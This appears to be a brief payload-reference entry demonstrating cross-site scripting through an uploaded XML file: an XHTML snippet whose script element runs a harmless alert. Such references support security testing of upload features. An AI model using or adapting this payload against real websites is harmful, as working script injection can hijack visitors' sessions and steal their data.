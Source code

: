 # XSS via XML file upload

## XSS via XML file upload

```text
<?xml version="1.0" encoding="UTF-8"?>
<xhtml:html xmlns:xhtml="http://www.w3.org/1999/xhtml">
		<xhtml:script>
			alert("hey !");
		</xhtml:script>
</xhtml:html>
```

